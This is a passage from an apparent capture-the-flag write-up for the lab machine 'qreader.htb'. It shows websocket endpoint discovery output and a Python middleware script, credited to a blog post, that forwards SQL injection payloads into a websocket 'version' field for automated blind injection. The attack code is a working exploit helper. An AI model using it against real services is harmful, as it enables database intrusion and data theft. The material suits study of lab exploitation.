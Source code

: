 ##### output
```bash
$ python3 ws_discovery.py         
{"paths": {"/update": "Check for updates", "/version": "Get version information"}}
{"message": "Invalid version!"}
{"message": "Invalid version!"}
{"message": "Invalid version!"}
{"message": {"id": 1, "version": "0.0.1", "released_date": "12/07/2022", "downloads": 280}}
{"message": "Invalid version!"}
{"message": "Invalid version!"}
{"message": "Invalid version!"}
{"message": "Invalid version!"}
```

#### Create exploit middleware to perform SQL map queries on ([source](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html))

**middleware.py**
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://qreader.htb:5789"

def send_ws(payload):
    ws = create_connection(ws_server + '/version')
    payload = unquote(payload).replace("'","\\\"")
    data = '{"version":"%s"}' % payload
    ws.send(data)
    resp = ws.recv()
    ws.close()

    if resp:
        return resp
    else:
        return ''

def middleware_server(host_port,content_type="text/plain"):

    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split('=',1)[1]
            except IndexError:
                payload = False
                
            if payload:
                content = send_ws(payload)
            else:
                content = 'No parameters specified!'

            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
```